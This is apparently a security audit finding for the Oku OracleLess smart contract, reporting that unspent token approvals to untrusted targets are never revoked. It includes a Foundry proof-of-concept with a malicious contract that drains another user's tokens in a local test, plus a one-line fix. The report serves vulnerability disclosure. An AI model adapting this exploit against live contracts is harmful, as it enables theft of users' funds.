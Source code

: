 Urban Blonde Millipede

High

# Failure to reset unspent approval to the target address will lead to the wiping of the smart contract balance

### Summary

The contract gives arbitrary approval to untrusted contracts when filling orders, these approvals don't need to be fully utilized, and in situations where the approvals are not fully used they are not revoked, worst the order creator gets refunded for all unspent tokens. This leaves a malicious contract with unused approvals that they can use to steal funds. This attack is very easy to perform and can be done multiple times.

### Root Cause

The root cause is the failure to set approval to zero after the call to the `target` contract.

https://github.com/sherlock-audit/2024-11-oku/blob/main/oku-custom-order-types/contracts/automatedTrigger/OracleLess.sol#L240

```solidity
    function execute(
        address target,
        bytes calldata txData,
        Order memory order
    ) internal returns (uint256 amountOut, uint256 tokenInRefund) {
        //update accounting
        uint256 initialTokenIn = order.tokenIn.balanceOf(address(this));
        uint256 initialTokenOut = order.tokenOut.balanceOf(address(this));

        //approve
 @->       order.tokenIn.safeApprove(target, order.amountIn);

        //perform the call
        (bool success, bytes memory reason) = target.call(txData);

        if (!success) {
            revert TransactionFailed(reason);
        }

        uint256 finalTokenIn = order.tokenIn.balanceOf(address(this));
        require(finalTokenIn >= initialTokenIn - order.amountIn, "over spend");
        uint256 finalTokenOut = order.tokenOut.balanceOf(address(this));

        require(
            finalTokenOut - initialTokenOut > order.minAmountOut,
            "Too Little Received"
        );

        amountOut = finalTokenOut - initialTokenOut;
        tokenInRefund = order.amountIn - (initialTokenIn - finalTokenIn);
    }
```

### Internal pre-conditions

There are pending orders in the contract, for example worth 100 ETH;,

### External pre-conditions

_No response_

### Attack Path

1. Attacker creates a malicious contract like the one on my POC
2. Attacker creates an order with 1 ETH, but the min amount out will be 1 wei
3. Attacker Fills their order immediately with the malicious contract.
4. By doing this the attack has earn approximately 1 ETH, they can do this multiple times to steal everything.

### Impact

1. The whole contract balance will be lost to the attacker.
2. Similar issue is on the Bracket Contract

### PoC

The output of the POC below shows that the attacker almost doubled their initial balance by performing this action.

```bash
[PASS] testAttack() (gas: 435837)
Logs:
  ATTACKER BALANCE BEFORE ATTACK :  100000000000000000000
  MALICIOUS CONTRACT ALLOWANCE   :  99999999999999999999
  ATTACK BALANCE AFTER ATTACK    :  199999999999999999998
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "forge-std/Test.sol";
import "forge-std/console.sol";
import {ERC20Mock} from "openzeppelin-contracts/contracts/mocks/token/ERC20Mock.sol";
import { AutomationMaster } from "../contracts/automatedTrigger/AutomationMaster.sol";
import { OracleLess } from "../contracts/automatedTrigger/OracleLess.sol";
import "../contracts/interfaces/uniswapV3/IPermit2.sol";
import "../contracts/interfaces/openzeppelin/ERC20.sol";
import "../contracts/interfaces/openzeppelin/IERC20.sol";

contract MaliciousTarget {

    IERC20 tokenIn;
    IERC20 tokenOut;

    constructor (IERC20 _tokenIn, IERC20 _tokenOut) {
        tokenIn = _tokenIn;
        tokenOut = _tokenOut;
        
    }

    fallback () external payable {
        tokenIn.transferFrom(msg.sender, address(this), 1);
        tokenOut.transfer(msg.sender, 1);
    }

    function spendAllowance(address victim) external {
        tokenIn.transferFrom(victim, msg.sender, 100 ether - 1);
    }


}


contract PocTest2 is Test {

    AutomationMaster automationMaster;
    OracleLess oracleLess;
    IPermit2 permit2;
    IERC20 tokenIn;
    IERC20 tokenOut;
    MaliciousTarget target;

    address attacker = makeAddr("attacker");
    address alice = makeAddr("alice");

    function setUp() public {
    
        automationMaster = new AutomationMaster();
        oracleLess = new OracleLess(automationMaster, permit2);
        tokenIn = IERC20(address(new ERC20Mock()));
        tokenOut = IERC20(address(new ERC20Mock()));

        target = new MaliciousTarget(tokenIn, tokenOut);
        //MINT
        ERC20Mock(address(tokenIn)).mint(alice, 100 ether);
        ERC20Mock(address(tokenIn)).mint(attacker, 100 ether);
        ERC20Mock(address(tokenOut)).mint(address(target), 1);

    }

    function testAttack() public {
        uint96 orderId;
        //Innocent User
        vm.startPrank(alice);
        tokenIn.approve(address(oracleLess), 100 ether);
        orderId = oracleLess.createOrder(tokenIn, tokenIn, 100 ether, 9 ether, alice, 1, false, '0x0');
        vm.stopPrank();

        //Attacker

        console.log("ATTACKER BALANCE BEFORE ATTACK : ", tokenIn.balanceOf(attacker));
        vm.startPrank(attacker);
        tokenIn.approve(address(oracleLess), 100 ether);
        orderId = oracleLess.createOrder(tokenIn, tokenOut, 100 ether, 0, attacker, 1, false, '0x0');

        oracleLess.fillOrder(1, orderId, address(target), "0x");

        console.log("MALICIOUS CONTRACT ALLOWANCE   : ",tokenIn.allowance(address(oracleLess), address(target)));

        //Spend allowance

        target.spendAllowance(address(oracleLess));

        console.log("ATTACK BALANCE AFTER ATTACK    : ", tokenIn.balanceOf(attacker));

        vm.stopPrank();

    }



}
```

### Mitigation

```diff
    function execute(
        address target,
        bytes calldata txData,
        Order memory order
    ) internal returns (uint256 amountOut, uint256 tokenInRefund) {
        //update accounting
        uint256 initialTokenIn = order.tokenIn.balanceOf(address(this));
        uint256 initialTokenOut = order.tokenOut.balanceOf(address(this));

        //approve
        order.tokenIn.safeApprove(target, order.amountIn);

        //perform the call
        (bool success, bytes memory reason) = target.call(txData);

        if (!success) {
            revert TransactionFailed(reason);
        }

+      order.tokenIn.safeApprove(target, 0);

        uint256 finalTokenIn = order.tokenIn.balanceOf(address(this));
        require(finalTokenIn >= initialTokenIn - order.amountIn, "over spend");
        uint256 finalTokenOut = order.tokenOut.balanceOf(address(this));

        require(
            finalTokenOut - initialTokenOut > order.minAmountOut,
            "Too Little Received"
        );

        amountOut = finalTokenOut - initialTokenOut;
        tokenInRefund = order.amountIn - (initialTokenIn - finalTokenIn);
    }
```